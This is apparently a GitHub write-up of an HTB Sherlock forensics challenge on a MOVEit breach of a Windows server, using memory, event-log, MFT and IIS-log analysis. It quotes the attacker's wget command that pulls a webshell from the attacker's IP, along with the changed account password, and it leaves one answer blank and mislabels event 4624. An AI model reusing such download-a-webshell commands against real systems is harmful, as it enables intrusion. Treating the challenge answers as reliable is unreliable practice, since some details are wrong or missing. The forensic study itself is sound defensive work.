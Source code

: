 **Sherlock Scenario:**
We have unfortunately been hiding under a rock and did not see the many news articles referencing the recent MOVEit CVE being exploited in the wild. We believe our Windows server may be vulnerable and has recently fallen victim to this compromise. We need to understand this exploit in a bit more detail and confirm the actions of the attacker & retrieve some details so we can implement them into our SOC environment. We have provided you with a triage of all the necessary artifacts from our compromised Windows server. PS: One of the artifacts is a memory dump, but we forgot to include the vmss file. You might have to go back to basics here...


**Given:**
- .vmem
- Rapid Triage Directory (Kape)
- Windows Event Logs (C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads\auto\C%3A\Windows\System32\winevt\Logs)
- IIS Log (Microsoft Internet Information Services) - C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads\auto\C%3A\inetpub\logs\LogFiles\W3SVC2
- SQL Source file - C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads


**Data Preparation:**

**Memory Dump (kali)** - Warning- This won't work because the question states that  vmss file is missing so use "strings" instead
```
python3 vol.py -f '/home/kali/Downloads/Sherlock/volatility3-1.0.0/volatility3-1.0.0/I-like-to-27a787c5.vmem' windows.info
```




**Creating MFT output CSV**
```
.\MFTECmd.exe -f 'C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT' --csv C:\Users\johnn\Downloads\SherlockPractice\iliketo\ --csvf MFT.csv
```



**EvtxECmd.exe**


Note: cd to \EvtxeCmd path first the run the bellow command


Creating kape_event_log_Security.csv from Security log
```
.\EvtxECmd.exe -f 'C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads\auto\C%3A\Windows\System32\winevt\Logs\Security.evtx' --csv C:\Users\johnn\Downloads\SherlockPractice\iliketo\ --csvf kape_event_log_security.csv
```











**Questions**

- Name of the ASPX webshell uploaded by the attacker?

Run the following "strings" command to grep .aspx extensions from the memory dump.

```
 strings ./I-like-to-27a787c5.vmem | grep .aspx
```

It's definitely suspicious as we can see the download link and files

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/da0573c8-dfbb-40a6-8bbf-9e2dd74bcb75)


Also if we scroll down, we can see the command wget for downloading the suspicious move.aspx file

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/2bb7d595-8fae-4652-9f25-33c092c3cb3a)


Answer: move.aspx


- What was the attacker's IP address?

Output from previous question

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/7728c6ee-b3d7-4925-8950-a1b44f448c66)


Answer: 10.255.254.3

- What user agent was used to perform the initial attack?

IIS Log

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/119787c8-791c-47a8-a719-2cff6b5806d2)



Answer: Ruby


- When was the ASPX webshell uploaded by the attacker?

Upload our generated MFT.csv to Timeline Explorer, then seach for "move.aspx"

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/ce974463-a033-43d4-890e-36f29e72fc36)


Answer: 12/07/2023 11:24:30


- The attacker uploaded an ASP webshell which didn't work, what is its filesize in bytes?

From Microsoft Defender Event logs, we can see the malicious warning state that the name is "backdoor;ASP/Webshell!MSR". It also indicate the malicious file and path. From this we know that "moveit.asp" is the cause of Microsoft Defender to take action against it.

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/992a6ffb-9afb-4a31-b9e0-970ff468a080)


Now, we have the the of the malicious webshell file, we just need to go back to our "MFT.CSV" in Timeline Explorer and search for the keyword "moveit.asp" to obtain the size of file

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/de538c43-6d85-4b8c-8ca1-a4dd461f14fc)



Answer: 1362

- Which tool did the attacker use to initially enumerate the vulnerable server?

IIS Log

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/56e3091f-eec3-463e-b1bd-5584ea76a2fa)



Answer: nmap

- We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC)

Open Security log event CSV in TImeline explorer and filter for event 4624 (password reset)

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/a7d4bb00-6a8b-4a39-ba9f-88fb284eb067)




Answer: 12/07/2023 11:09:27



- Which protocol did the attacker utilize to remote into the compromised machine?

In windows security log, search for the suspicious IP "10.255.254.3" with event code 4624 (Success logon)

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/78b82c73-2403-462a-842e-943ef7014f1e)



If we further inspect the event, we'll see the the Logon type is 10 which corresponds to RDP

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/b6a547cd-58f0-47fb-ac43-c1e2d393252e)



Answer: RDP

- Please confirm the date and time the attacker remotely accessed the compromised machine?


Follow up the previous question with event 4624, we we inspect XML view, we can see the actual system time that the attack logon to the machine

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/f7eedf53-662e-4838-8b7f-0014e9ff3397)


Alternatively, we can filter for event 4624 in windows security log in form of CSV

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/519a33d8-9bd0-4e92-88f5-a8802f6a9ae4)



Answer: 12/07/2023 11:11:18


- What was the useragent that the attacker used to access the webshell?

IIS Log

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/ada68c97-57db-4d45-9898-9b107428cd00)



Answer: Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0


- What is the inst ID of the attacker?

Open moveit.sql in any editor and search for "2023-07-12" because we know that is the date where the attack happened.

We see some interesting information here and the corresponding "inst_add" that we're looking for

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/4f68d5bb-13ab-4911-ae41-0c9e133358da)



We know the format that the potential inst ID that we're looking for is in this format (the value locates after 'inst_add' )

```
1,'2023-06-14 02:21:48','inst_add',0,
```

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/202ac76a-a0b6-4a93-b803-0f0248ea21e1)



Answer: 1234



- What command was run by the attacker to retrieve the webshell?

Run the following "strings" command to grep .aspx extensions from the memory dump.

Command Line:
```
strings ./I-like-to-27a787c5.vmem | grep .aspx 
```
![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/ebce06b7-b60c-4efa-8827-98e712ee1396)




Answer: wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx

- What was the string within the title header of the webshell deployed by the TA?


![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/a108fc21-6944-4b0f-873d-077390626d38)


When grepping string from .vmem with "move.aspx", we encounter some kind of form. Therefore, we want to try to inspect the whole form by running the following command:

```
strings ./I-like-to-27a787c5.vmem | grep 'form name="cmd"' -A 40 -B 20
```

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/65cc20b2-6980-4846-9c8c-64db077d7e86)


Answer: 

- What did the TA change the our moveitsvc account password to?

Run the strings command on .vmem and filter for keyword "net user"


```
strings ./I-like-to-27a787c5.vmem | grep "net user"    
```

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/2ff1dc1b-ee34-4c1e-b631-df3c1d61613a)


Answer: 5trongP4ssw0rd
